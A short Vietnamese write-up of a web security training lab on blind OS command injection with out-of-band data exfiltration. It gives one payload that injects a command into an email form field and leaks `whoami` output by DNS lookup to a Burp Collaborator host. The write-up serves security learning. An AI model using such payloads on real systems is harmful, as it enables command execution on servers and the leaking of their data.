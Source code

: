 ![](img/10.png)
### Giải quyết
- Tương tự lab `Blind OS command injection with out-of-band interaction`. Tuy nhiên ở đây cần thực thi câu lệnh `whoami` và trích xuất output. 
- Để làm điều này chỉ cần thêm tên miền phụ cho tên miền chính từ Burp Collaborator.
- Payload: 
>email=aaaa%40gmail.com;nslookup+\`whoami\`.ciy2322d0bcshth3tcjxvmsnpev8jx.burpcollaborator.net;#&subject=...
![](img/11.png)
![](img/12.png)
###### Solved!
